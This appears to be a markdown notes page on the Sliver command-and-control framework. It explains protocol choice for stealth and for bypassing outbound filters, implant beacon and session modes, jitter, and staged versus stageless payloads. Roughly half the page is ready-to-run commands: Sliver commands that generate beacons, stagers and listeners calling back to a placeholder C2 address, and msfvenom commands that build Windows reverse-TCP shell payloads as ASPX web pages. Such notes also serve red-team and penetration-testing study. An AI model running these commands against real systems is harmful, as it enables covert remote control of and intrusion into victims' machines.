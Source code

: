 # Content
- []()
- []()
# Sliver Communication Protocols
![Architecture](https://github.com/user-attachments/assets/5d6aa18d-6484-42a1-b833-96e29ab9ca9b)
## Choosing the Right Protocol

The selection of a protocol depends on the specific network environment and the attacker’s objectives:

- **Stealth**: DNS and HTTPS are preferred in highly monitored networks.
- **High Bandwidth**: mTLS and HTTPS are better for large data transfers.
- **Internal Pivoting**: Named pipes and TCP pivots are essential for moving laterally within an environment.
- **Bypassing Restrictions**: DNS can bypass most outbound traffic filters.


# Implants 
- Implants are the software (binaries/executables), They offer network connections on different sets of protocols and a means of communication between a C2 server and the target workstation/server.
- Implants can operate in beacon and session modes.
  - **Sessions:** use long-polling connections, which means they use a single TCP connection which is constantly open.
  - **Beacons:** on the other hand call back periodically, and will sleep when not active which can help keep their presence hidden.
```bash
sliver > generate beacon --http 127.0.0.1:8088 -N http_beacon --os linux --skip-symbols
sliver > http --lport 8088
```
## Jitter
- Jitter is a randomization mechanism that alters the interval at which beacon signals are sent to the C2 server.
- Example: If a beacon is set to signal every 60 seconds with a 20% jitter, the actual interval will vary randomly between 48 and 72 seconds.
## Stagers
- **Stegeless:**  one single binary that connects back to u
- **Staged:** Dropper, its a smaller payload that when executed, will call back to the C2 server to download and execute the second stage of the payload in-memory, which is where you actually get the beacon to execute.

```bash
# create profile and set a beacon
sliver > profiles new beacon --http <C2 IP>:8088 --format shellcode profile_name
sliver > http -L <C2 IP> -l 8088
# just another example:  sliver > profiles new beacon --arch amd64 --os windows --mtls <C2 IP>:443 -f shellcode --timeout 300 --seconds 5 --jitter 1 profile_name 


# use sliver shellcode in msvnom stagger
sliver > stage-listener --url tcp://<C2 IP>:4443 --profile profile_name
sliver > generate stager --lhost <C2 IP> --lport 4443 --format csharp --save staged.txt
# change the shellcode in sliver.aspx with the one generated above
msfvenom -p windows/shell/reverse_tcp LHOST=<C2 IP> LPORT=4443 -f aspx > sliver.aspx

# use msvenom stagger directly 
sliver > stage-listener --url tcp://<C2 IP>:4443 --profile profile_name --prepend-size
msfvenom -p windows/shell/reverse_tcp LHOST=<C2 IP> LPORT=4443 -f aspx > sliver.aspx
```

